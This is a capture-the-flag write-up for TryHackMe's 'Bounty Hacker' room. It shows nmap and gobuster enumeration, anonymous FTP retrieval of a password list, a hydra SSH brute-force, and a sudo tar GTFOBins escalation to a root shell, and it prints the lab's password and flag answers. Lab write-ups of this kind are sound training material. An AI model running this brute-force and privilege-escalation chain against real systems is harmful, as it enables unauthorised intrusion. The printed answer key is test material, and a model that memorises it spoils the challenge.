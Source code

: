 

# Bounty Hacker - TryHackMe Writeup

This is a writeup for the "Bounty Hunter" challenge on TryHackMe, you can find [here](https://tryhackme.com/room/cowboyhacker). 

---



## Steps

### 1. Deploy the Machine
- Deployed the machine via TryHackMe .

### 2. Find Open Ports
- Scanned the target with `nmap`:
  ```bash
  nmap -A -sV -p- [VICTIM IP]
  ```
- Example:
  ```bash
  nmap -A -sV -p- 10.10.6.18
  ```
- Flags explained:
  - `-A`: Aggressive scan (OS detection, version detection, scripts, traceroute).
  - `-sV`: Detect service versions.
  - `-p-`: Scan all 65,535 ports.
- Results:
  ```
  PORT   STATE SERVICE VERSION
  21/tcp open  ftp     vsftpd 3.0.3 (ANONYMOUS logging enabled)
  22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8
  80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
  ```
- Open ports: 3 (21, 22, 80).

### 3. Web Enumeration
- Ran `gobuster` to find directories:
  ```bash
  gobuster dir -u http://[VICTIM IP] -w [WORDLIST PATH]
  ```
- Example:
  ```bash
  gobuster dir -u http://10.10.6.18 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
  ```
- Flags explained:
  - `dir`: Directory enumeration mode.
  - `-u`: Target URL.
  - `-w`: Wordlist path.
- Results:
  ```
  /images        (Status: 301)
  /server-status (Status: 403)
  ```
- nothing interesting but still checked manually `http://[VICTIM IP]` .. and still nothing

### 4. Explore FTP
- Connected to FTP with anonymous login (from the nmap scan):
  ```bash
  ftp [VICTIM IP]
  ```
- Used `ls` (FTP command: `dir` works too) and found two files: `task.txt` and `locks.txt`.
- Downloaded them:
  ```bash
  get task.txt
  get locks.txt
  ```
- Read `task.txt`:
  ```bash
  cat task.txt
  ```
- Output:
  ```
  1.) Protect Vicious.
  2.) Plan for Red Eye pickup on the moon.
  -lin
  ```
- Author: `lin`.
- Read `locks.txt`:
  ```bash
  cat locks.txt
  ```
- Output: A list of passwords (e.g., `RedDr4gonSynd1cat3`, `rEDdrAGOnSyNDiCat3`).

### 5. Brute-Force SSH
- Identified SSH as a brute-forceable service from the `nmap` scan (port 22).
- Used `hydra` with the `locks.txt` password list:
  ```bash
  hydra -l lin -P locks.txt [VICTIM IP] ssh
  ```
- Example:
  ```bash
  hydra -l lin -P locks.txt 10.10.6.18 ssh
  ```
- Flags explained:
  - `-l`: Single username (`lin` from `task.txt`).
  - `-P`: Password list file.
- Output:
  ```
  [22][ssh] host: 10.10.6.18  login: lin   password: RedDr4gonSynd1cat3
  ```
- Service: `ssh`.
- Password: `RedDr4gonSynd1cat3`.

### 6. Gain User Access
- Logged in via SSH:
  ```bash
  ssh lin@[VICTIM IP]
  ```
- Example:
  ```bash
  ssh lin@10.10.6.18
  ```
- Entered password `RedDr4gonSynd1cat3` and landed in:
  ```
  lin@bountyhacker:~/Desktop$
  ```
- Checked identity:
  ```bash
  id
  ```
- Output: `uid=1001(lin) gid=1001(lin) groups=1001(lin)`
- Listed files:
  ```bash
  ls
  ```
- Found `user.txt` and read it:
  ```bash
  cat user.txt
  ```
- Content: `THM{CR1M3_SyNd1C4T3}`

### 7. Privilege Escalation
- Searched for SUID binaries:
  ```bash
  find / -user root -perm /4000 2>/dev/null
  ```
- No unusual results, so checked `sudo` privileges:
  ```bash
  sudo -l
  ```
- Entered password `RedDr4gonSynd1cat3`:
  ```
  User lin may run the following commands on bountyhacker:
      (root) /bin/tar
  ```
- Found `/bin/tar` could be run as root. Visited [GTFOBins](https://gtfobins.github.io/gtfobins/tar/) and used:
  ```bash
  sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
  ```
- Flags explained:
  - `-cf`: Create a tar file (`/dev/null` as dummy output).
  - `--checkpoint=1`: Trigger an action every 1 record.
  - `--checkpoint-action=exec=/bin/sh`: Execute `/bin/sh` when checkpoint is hit.
- Got a root shell:
  ```bash
  '# id'
  ```
- Output: `uid=0(root) gid=0(root) groups=0(root)`

### 8. Find Root Flag
- Searched for `root.txt`:
  ```bash
  '# find -name "root.txt" 2>/dev/null'
  ```
- Output: `./root/root.txt`
- Read it:
  ```bash
  '# cat /root/root.txt'
  ```
- Content: `THM{80UN7Y_h4cK3r}`

---

## Answers to Challenge Questions
1. **Who wrote the task list?**: `lin`
2. **What service can you brute-force with the text file found?**: `ssh`
3. **What is the user’s password?**: `RedDr4gonSynd1cat3`
4. **user.txt**: `THM{CR1M3_SyNd1C4T3}`
5. **root.txt**: `THM{80UN7Y_h4cK3r}`

---

## Tools Used
- `nmap`: Port and service enumeration.
- `gobuster`: Web directory enumeration.
- `ftp`: File retrieval.
- `hydra`: SSH brute-forcing.
- `ssh`: Remote login.
- [GTFOBins](https://gtfobins.github.io/): Privilege escalation guide.

---

## Lessons Learned
- Anonymous FTP can leak critical files like password lists.
- Brute-forcing with `hydra` is effective with a targeted wordlist.
- Checking `sudo -l` is a quick way to find privilege escalation paths.
- `tar` as a `sudo`-able command can spawn a root shell via GTFOBins.

---


